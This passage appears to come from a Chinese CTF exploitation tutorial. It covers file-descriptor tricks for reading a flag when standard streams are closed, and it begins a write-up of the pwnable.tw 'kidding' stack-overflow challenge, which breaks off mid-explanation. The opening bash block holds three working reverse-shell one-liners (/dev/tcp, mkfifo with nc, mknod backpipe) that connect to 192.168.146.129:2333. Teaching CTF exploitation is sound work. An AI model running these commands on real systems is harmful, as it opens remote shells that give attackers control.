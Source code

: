 ```bash
#描述符5重定向为tcp连接文件 从中读取命令并执行返回
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
#将/tmp/f中的内容作为sh的输入，将sh的输出返回给远程机器，将机器的输入写入/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## fd trick

pwn题中，有时候会关闭标准输入，标准输出，错误输出，遇到这样的题目，我们该如何解决？下面按关闭的类型不同，讲解相应的策略。

**关闭标准输出**

获得shell后，可以利用错误输出来获得信息。如想要获得flag文件的信息，可直接运行该文件，错误信息将会暴露文件中的内容。

```bash
./flag
```

**关闭标准输出，错误输出**

获得shell后，我们可以输入命令，但是由于标准输出和错误输出的关闭无法得到结果的反馈。此时可以对标准输出做重定向。由前面的知识可知，标准输入和标准输出指向的文件实质是一样的，因此将标准输出重定向到标准输入即可显示。

```bash
cat flag >&0
```

**关闭标准输入**

此时无法输入命令，因此可以利用ORW来获得flag的值。

**关闭标准输入，标准输出，错误输出**

这是最复杂的情况，有两种方案。

1.我们知道标准输入，标准输出和错误输出都是指向/dev/pts/？，因此可以打开/dev/pts/？作为标准输出。如首先open('flag',2),打开的文件的文件标识符将会是0，在打开/dev/pts/?，文件标识符将会是1，此时可利用write来输出。

2.可以利用reverse_shell来获得flag，这里用pwntable.tw中的kidding为例来详细讲解。

## kidding

**题目描述**

32位静态程序，未开启PIE，存在栈溢出，但是关闭了标准输入，标准输出，错误输出。

**利用思路**

由于溢出的字节有限，想要实现reverse_shell需要有栈执行权限，因此首先需要打开栈的执行权限，然后创建socked文件描述符，并将其复制到文件描述符1中，之后连接attacker，最后执行execve("/bin/sh",0,0)。

**打开栈执行权限**

修改权限的函数是mprotect(void *addr, size_t len, int prot)，其第一个参数是起始地址，第二个参数是长度，第三个是权限。其中其实地址必需是页对齐的，并且len是页的整数。

想要用mprotect函数，就必须得知道stack的地址，但是stack地址是动态的，如何获得其地址？

